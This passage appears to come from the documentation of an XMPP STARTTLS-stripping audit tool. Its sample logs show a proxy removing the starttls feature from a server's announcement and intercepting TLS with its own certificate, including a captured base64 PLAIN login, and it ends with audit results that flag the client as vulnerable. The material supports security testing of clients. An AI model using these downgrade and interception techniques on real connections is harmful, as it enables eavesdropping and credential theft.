        2016-02-05 16:53:31,263 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<stream:error><invalid-namespace xmlns='urn:ietf:params:xml:ns:xmpp-streams'></invalid-namespace></stream:error>"
        2016-02-05 16:53:31,266 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          '</stream:stream>'
        2016-02-05 16:53:31,269 - WARNING  - <Session 0x7f083196a7d0> terminated.

XMPP.StripFromCapabilities - strip starttls server annoucement
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        2016-02-05 16:53:34,633 - DEBUG    - <ProtocolDetect 0x7f083196a990 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        2016-02-05 16:53:34,633 - INFO     - <Session 0x7f083196a910> client ('192.168.139.1', 56890) has connected
        2016-02-05 16:53:34,633 - INFO     - <Session 0x7f083196a910> connecting to target ('jabber.ccc.de', 5222)
        2016-02-05 16:53:34,741 - DEBUG    - <Session 0x7f083196a910> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        2016-02-05 16:53:34,742 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripFromCapabilities new: True>
        2016-02-05 16:53:34,810 - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='12381525525258986322' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
        2016-02-05 16:53:34,814 - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        2016-02-05 16:53:34,816 - DEBUG    - <Session 0x7f083196a910> [client] <= [server][mangled] "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/></stream:features>"
        2016-02-05 16:53:34,869 - DEBUG    - <Session 0x7f083196a910> [client] => [server]          "<iq type='get' id='purplecfe2ee07'><query xmlns='jabber:iq:auth'><username>tin</username></query></iq>"
        2016-02-05 16:53:34,920 - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<stream:error><policy-violation xmlns='urn:ietf:params:xml:ns:xmpp-streams'></policy-violation><text xml:lang='' xmlns='urn:ietf:params:xml:ns:xmpp-streams'>Use of STARTTLS required</text></stream:error></stream:stream>"
        2016-02-05 16:53:34,926 - WARNING  - <Session 0x7f083196a910> terminated.

XMPP.StripUntrustedIntercept - TLS Interception inbound and outbound with own certificate/key
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        2016-02-05 16:53:42,799 - DEBUG    - <ProtocolDetect 0x7f083196aa90 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        2016-02-05 16:53:42,799 - INFO     - <Session 0x7f083196a8d0> client ('192.168.139.1', 56892) has connected
        2016-02-05 16:53:42,799 - INFO     - <Session 0x7f083196a8d0> connecting to target ('jabber.ccc.de', 5222)
        2016-02-05 16:53:42,901 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        2016-02-05 16:53:42,903 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.UntrustedIntercept new: True>
        2016-02-05 16:53:42,980 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='10051743579572304948' from='jabber.ccc.de' version='1.0' xml:lang='en'><stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        2016-02-05 16:53:42,984 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        2016-02-05 16:53:42,986 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server][mangled] "<proceed xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        2016-02-05 16:53:43,006 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server][mangled] waiting for inbound SSL Handshake
        2016-02-05 16:53:43,008 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        2016-02-05 16:53:43,060 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server][mangled] performing outbound SSL handshake
        2016-02-05 16:53:43,219 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server][mangled] None
        2016-02-05 16:53:43,221 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        2016-02-05 16:53:43,225 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        2016-02-05 16:53:43,369 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='6938642107398534259' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
        2016-02-05 16:53:43,379 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><register xmlns='http://jabber.org/features/iq-register'/><mechanisms xmlns='urn:ietf:params:xml:ns:xmpp-sasl'><mechanism>PLAIN</mechanism><mechanism>X-OAUTH2</mechanism><mechanism>SCRAM-SHA-1</mechanism></mechanisms></stream:features>"
        2016-02-05 16:53:43,423 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        2016-02-05 16:53:43,426 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "auth xmlns='urn:ietf:params:xml:ns:xmpp-sasl' mechanism='PLAIN' xmlns:ga='http://www.google.com/talk/protocol/auth' ga:client-uses-full-bind-result='true'>AHRpbgB4eA==</auth>"
        2016-02-05 16:53:43,581 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<failure xmlns='urn:ietf:params:xml:ns:xmpp-sasl'><not-authorized/></failure>"
        2016-02-05 16:53:43,611 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        2016-02-05 16:53:43,616 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '/stream:stream>'
        2016-02-05 16:53:43,620 - WARNING  - <Session 0x7f083196a8d0> terminated.

XMPP Audit results
^^^^^^^^^^^^^^^^^^

::

        2016-02-05 16:53:46,352 - WARNING  - Ctrl C - Stopping server
        2016-02-05 16:53:46,353 - INFO     -  -- audit results --
        2016-02-05 16:53:46,353 - INFO     - [*] client: 192.168.139.1
        2016-02-05 16:53:46,353 - INFO     -     [Vulnerable!] <class striptls.StripInboundTLS at 0x7f08319a6808>
        2016-02-05 16:53:46,353 - INFO     -     [Vulnerable!] <class striptls.StripFromCapabilities at 0x7f08319a67a0>
        2016-02-05 16:53:46,353 - INFO     -     [Vulnerable!] <class striptls.UntrustedIntercept at 0x7f08319a6870>


